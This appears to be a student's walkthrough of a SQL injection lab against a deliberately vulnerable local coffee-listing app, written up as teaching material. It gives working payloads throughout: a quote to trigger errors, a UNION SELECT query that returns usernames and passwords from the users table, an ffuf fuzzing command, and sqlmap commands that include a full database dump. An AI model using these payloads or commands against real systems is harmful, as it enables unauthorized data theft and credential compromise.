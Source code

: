 
---

# 📖 High-Level Summary:

This lab demonstrates multiple techniques to perform SQL Injection (SQLi) attacks on a vulnerable application. The focus is on:

1. Identifying SQLi vulnerabilities using **basic error-based techniques**.
2. Extracting data through **Union Select attacks**.
3. Automating SQLi discovery using **ffuf** and **sqlmap**.

---

# 📚 Definition Bank:

|**Term**|**Definition**|**Key Notes**|
|---|---|---|
|**SQL Injection (SQLi)**|A web vulnerability that allows attackers to interfere with an application’s database queries.|Exploits improperly sanitized inputs to execute arbitrary SQL commands.|
|**Union Select Attack**|A technique to combine results from multiple SELECT statements into a single result.|The number and order of columns in the UNION statement must match the original query.|
|**ffuf**|A web fuzzer for testing and discovering vulnerabilities.|Used here with SQL payloads to identify injectable parameters.|
|**sqlmap**|An automated tool for discovering and exploiting SQL Injection vulnerabilities.|Can detect, exploit, and dump database contents.|
|**`--ignore-code` flag**|Tells sqlmap to ignore specific HTTP response codes.|Used to bypass 401 (Unauthorized) responses in this lab.|

---

# 🎯 Steps and Commands:

### Step 1: Identifying SQL Injection via Error Messages

1. Start by sending a simple payload:
    
    ```plaintext
    '
    ```
    
2. Observe the response in Burp Suite for the request:
    
    ```plaintext
    GET /v1/001.php?roast=5'
    ```
    
    - **Output:**
        
        ```plaintext
        uncaughtmysqli_sql_exception:...
        ```
        
    - **Key Findings:**
        - The application uses **MySQL** as its database.
        - The parameter `roast` is vulnerable to SQL Injection.

---

### Step 2: Extracting Data Using Union Select

1. **Analyze the Base Response**:
    
    ```json
    {
      "ID": 1,
      "name": "Ethiopian Yirgacheffe",
      "origin": "Ethiopia",
      "roast_level": 5
    }
    ```
    
    - There are **4 columns** in the query.
2. **Craft the Union Select Payload**:
    
    ```sql
    5 UNION SELECT username, password, null, null FROM users
    ```
    
    - **Why Does Column Order Matter?**
        - The `ID` and `name` columns in the response correlate to the **first two columns** of the Union Select statement. Placing `username` and `password` in the correct order ensures they appear in the expected fields.
3. **Send the Request in Repeater**:
    
    - Encode the payload and send the following request:
        
        ```plaintext
        GET /v1/001.php?roast=5%20UNION%20SELECT%20username,%20password,%20null,%20null%20FROM%20users
        ```
        
    - **Response:**
        
        ```json
        {
          "ID": "admin",
          "name": "iLikePasta"
        },
        {
          "ID": "jeremy",
          "name": "jeremymyspassword"
        }
        ```
        

---

### Step 3: Using ffuf to Identify SQLi

1. Use the following **ffuf** command:
    
    ```bash
    ffuf -u http://localhost/v1/001.php?roast=FUZZ -w /usr/share/seclists/Fuzzing/SQLi/Generic-Sqli.txt
    ```
    
2. **Flags Used:**
    
    - `-u`: Specifies the target URL with `FUZZ` as the placeholder.
    - `-w`: Points to the wordlist containing SQLi payloads.
3. **Analyze Output:**
    
    - Look for status codes or response sizes that deviate from the baseline.
    - Test the promising payloads in Repeater to confirm injection.

---

### Step 4: Automating SQLi Detection with sqlmap

1. Save the vulnerable request to a file (`req.txt`).
    
2. Run sqlmap:
    
    ```bash
    sqlmap -r req.txt --ignore-code 401
    ```
    
    - **Flags Used:**
        - `-r`: Reads the request from the specified file.
        - `--ignore-code 401`: Bypasses 401 Unauthorized responses.
3. **Key Outputs:**
    
    - sqlmap confirms that the `roast` parameter is injectable.
    - Identifies the **DBMS** as MySQL.
    - Suggests successful payloads for the injection.
4. **Dump Database Contents:**
    
    ```bash
    sqlmap -r req.txt --dump
    ```
    
    - Retrieves tables, columns, and data from the database.

---

# ✅ Key Takeaways:

1. **Error-Based SQLi:** Testing with a single quote (`'`) reveals error messages that confirm injection points.
2. **Union Select:** The number and order of columns must match the original query structure to extract meaningful data.
3. **Automation Tools:** Tools like **ffuf** and **sqlmap** streamline vulnerability discovery and exploitation.

---
